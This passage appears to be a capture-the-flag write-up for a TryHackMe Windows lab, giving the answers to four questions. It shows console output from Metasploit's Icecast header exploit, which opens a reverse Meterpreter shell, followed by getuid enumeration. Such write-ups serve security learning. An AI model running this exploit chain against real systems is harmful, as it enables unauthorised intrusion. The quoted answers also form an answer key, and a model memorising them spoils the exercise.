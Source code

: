 <p align="center"> <img width="200px" src="https://github.com/user-attachments/assets/458c28bf-9d68-44d0-b420-6136ff40ea6f"> </p>

<p align="center">Enumerate the machine and find potential privilege escalation paths to gain Admin powers!</p>

<br>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the questions below}}$$ </h3>

> 4.1. <em>Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now?</em><br><a id='4.1'></a>
>> <code><strong>meterpreter</strong></code>

<br>

<pre><code>msf6 exploit(windows/http/icecast_header) > exploit

[*] Started reverse TCP handler on [THM AttackBox IP]:[THM AttackBox Port] 
[*] Sending stage (177734 bytes) to [Target]
[*] Meterpreter session 1 opened ([THM AttackBox IP]:[THM AttackBox Port] -> [Target IP]:[Target Port]) at 2024-12-08 18:48:31 +0000

meterpreter ></code></pre>

<br>

> 4.2. <em>What user was running that Icecast process? The commands used in this question and the next few are taken directly from the 'Metasploit' module.</em><br><a id='4.2'></a>
>> <code><strong>dark</strong></code>

<br>

<pre><code>meterpreter > getuid
Server username: Dark-PC\Dark
meterpreter ></code></pre>

<br>

<p align="center"> <img width="800px" src="https://github.com/user-attachments/assets/25d99952-bdcd-4a8e-90d1-563ddeb13a27"> </p>


<br>

> 4.3. <em>What build of Windows is the system?</em><br><a id='4.3'></a>
>> <code><strong>7601</strong></code>

<br>

<p align="center"> <img width="800px" src="https://github.com/user-attachments/assets/04dceb8d-37d6-49d1-a79a-dc8dc7f23d4a"> </p>


<br>

> 4.4. <em>Now that we know some of the finer details of the system we are working with, let's start escalating our privileges. First, what is the architecture of the process we're running?</em><br><a id='4.4'></a>
>> <code><strong>x64</strong></code>

<br>
